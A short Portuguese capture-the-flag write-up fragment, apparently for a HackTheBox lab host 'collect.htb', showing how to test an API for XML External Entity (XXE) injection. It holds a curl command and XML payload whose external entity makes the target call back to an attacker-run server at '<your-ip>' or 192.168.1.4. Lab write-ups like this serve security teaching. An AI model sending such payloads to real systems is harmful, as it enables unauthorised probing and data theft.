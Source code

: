 <figure><img src="./assets/19.png" alt=""><figcaption></figcaption></figure>

Algumas aplicações que utilizam o xml, são vulneráveis à XXE (XML External Entity).

Para testar se essa aplicação está vulnerável, podemos configurar um servidor python e enviar uma payload que faz uma request para nosso servidor.



**Payload**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=i6f7tbtgmvon8hko3tvtscifpc"
```

```xml
<!DOCTYPE root [
    <!ENTITY % xpl SYSTEM "http://192.168.1.4/">
    %xpl;
]>
<root>
    <method>POST</method>
    <uri>/auth/register</uri>
    <user>
        <username>test</username>
        <password>test</password>
    </user>
</root>
```
